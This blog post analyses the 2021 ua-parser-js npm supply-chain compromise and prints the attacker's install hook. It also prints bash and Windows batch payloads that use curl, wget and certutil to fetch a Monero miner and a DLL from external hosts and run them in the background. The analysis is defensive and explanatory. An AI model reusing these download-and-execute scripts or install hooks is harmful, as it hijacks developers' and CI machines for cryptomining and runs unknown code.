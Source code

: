 ```yaml
---
title: "ua-parser-js Compromise"
date: 2021-10-24
tags: ["security"]
type: post
---
```


_Obvious Disclaimer: I'm not a professional security researcher.  I dabble in
these things and more pursue these things out of curiosity.  Let me know what I
got wrong._

Today I read that there was another victim of a Supply Chain attack, a NPM
module author had a few of their modules compromised, one of which (the one I
read about) was `ua-parser.js`.  This module provides detection of various
platform data from user agent strings.

There were a few offending versions, all of which were promptly taken down.  The
author [reported in the GitHub
issue](https://github.com/faisalman/ua-parser-js/issues/536) that the attacker
compromised an account without 2 factor authentication and published 3 rouge
versions.

Inspired by YouTubers like [John
Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw), I dug into
this a bit to satisfy my own curiosity.

## How The Payload Was Installed

This was pretty simple, as NPM itself provides hooks that packages can use to
perform extra steps during installation.  This is fairly common, and in this
case the attacker used it to download and execute their payload.

This is the hook code in question:

```js
const { exec } = require("child_process");

function terminalLinux(){
    exec("/bin/bash preinstall.sh", (error, stdout, stderr) => {
        if (error) {
            console.log(`error: ${error.message}`);
            return;
        }
        if (stderr) {
            console.log(`stderr: ${stderr}`);
            return;
        }
        console.log(`stdout: ${stdout}`);
    });
}

var opsys = process.platform;
if (opsys == "darwin") {
    opsys = "MacOS";
} else if (opsys == "win32" || opsys == "win64") {
    opsys = "Windows";
    const { spawn } = require('child_process');
    const bat = spawn('cmd.exe', ['/c', 'preinstall.bat']);
} else if (opsys == "linux") {
    opsys = "Linux";
    terminalLinux();
}
```

This node code was executed and then ran a script appropriate to your platform.
Both did basically the same thing, but this is the bash version.

```sh
IP=$(curl -k https://freegeoip.app/xml/ | grep 'RU\|UA\|BY\|KZ')
if [ -z "$IP" ]
    then
    var=$(pgrep jsextension)
    if [ -z "$var" ]
        then
        curl http://159.148.186.228/download/jsextension -o jsextension 
        if [ ! -f jsextension ]
            then
            wget http://159.148.186.228/download/jsextension -O jsextension
        fi
        chmod +x jsextension
        ./jsextension -k --tls --rig-id q -o pool.minexmr.com:443 -u ---- --cpu-max-threads-hint=50 --donate-level=1 --background &>/dev/null &
    fi
fi
```

(some info redacted)

This script first checks if your in Russia, Ukrane, Belarus, or Kazakhstan and
skip execution if your IP is in those countries.

It then downloads a file called `jsextension`, but appears to really be a crypto
miner.  I can't download this and verify myself as the server hosting the file
appears to have already been shutdown.

This code ran as a hook in NPM, which only runs when using `npm` commands like
`npm install` and `npm ci`.  Therefore, the payload would only have been
downloaded on developer or CI machines that were installing node packages.

## Windows

The windows payload looks a bit more complex:

```bat
@echo off
curl http://159.148.186.228/download/jsextension.exe -o jsextension.exe
if not exist jsextension.exe (
    wget http://159.148.186.228/download/jsextension.exe -O jsextension.exe
)
if not exist jsextension.exe (
    certutil.exe -urlcache -f http://159.148.186.228/download/jsextension.exe jsextension.exe
)
curl https://citationsherbe.at/sdd.dll -o create.dll
if not exist create.dll (
    wget https://citationsherbe.at/sdd.dll -O create.dll
)
if not exist create.dll (
    certutil.exe -urlcache -f https://citationsherbe.at/sdd.dll create.dll
)
set exe_1=jsextension.exe
set "count_1=0"
>tasklist.temp (
tasklist /NH /FI "IMAGENAME eq %exe_1%"
)
for /f %%x in (tasklist.temp) do (
if "%%x" EQU "%exe_1%" set /a count_1+=1
)
if %count_1% EQU 0 (start /B .\jsextension.exe -k --tls --rig-id q -o pool.minexmr.com:443 -u --- --cpu-max-threads-hint=50 --donate-level=1 --background & regsvr32.exe -s create.dll)
del tasklist.temp
```

I'm working on digging into that `create.dll` file that gets downloaded, it
seems spooky-wooky to me, but I'll do a separate writeup of it because I have to
refresh my Windows skills.

## 159.148.186.228

This server belongs to a hosting company, and the payload was already removed
(and the server no longer listening on 443 or 80), so I presume the hosting
company caught wind and shut it down.

I did look at [shodan](https://www.shodan.io/host/159.148.186.228) to see if
there was anything interesting, and it looks like just VNC and X11 were running
on the machine.

I don't have access to the history, but I assume this IP is shared at the
hosting provider, so I doubt any of that information would be of substantial
use.

## jsextension

This was the main payload the hook tried to download, and I couldn't get a copy
of it outright.  I found that
[Sonatype](https://blog.sonatype.com/newly-found-npm-malware-mines-cryptocurrency-on-windows-linux-macos-devices)
ran it through
[VirusTotal](https://www.virustotal.com/gui/file/7f986cd3c946f274cdec73f80b84855a77bc2a3c765d68897fbc42835629a5d5).

Lots of programs flagged that executable, and in the details I saw another name
it was found by was `xmrig.exe`.

[XMRig](https://github.com/xmrig/xmrig) is a CPU and GPU coin miner, so the
intention of this compromise is pretty clear: mine coins.

## Mining Pool

One other thing I did note, was that the attacker set up the miner to use a
pool.  `minexmr.com` (rather `pool.minexmr.com`) is configured in the CLI flags
(along with the user's coin address, which I've removed), and is a Monero mining
pool.

The pool does provide a dashboard to see your mining stats, and I was able to
login with the key provided graciously by the attacker in their payload.  As of
this writing, the attacker still had active connections to the pool (although,
they all share the same name so it's unclear how many targets there were), and
had only been active for the past few days.

Also, the attacker seemed to be successful (at least from a monetary
perspective) and had $16 in their pool account.  Monero by design doesn't allow
you to view transactions associated with an address, so we can't know their
total earnings.  The pool also appears to have an automatic transfer-out
feature, so it's very likely they had already had transfers out already.

## Wrapping Up

Nothing earth shattering in this attack, user with 2 factor auth had their
account compromised and someone wanted to mine some crypto.

At the end of the day, it's another good argument for 2 factor authentication
everywhere, and evaluating your supply chain.  NPM packages have a reputation
for being extraordinarily recursive, so it's possible your had a potentially
compromised package without your direct knowledge.
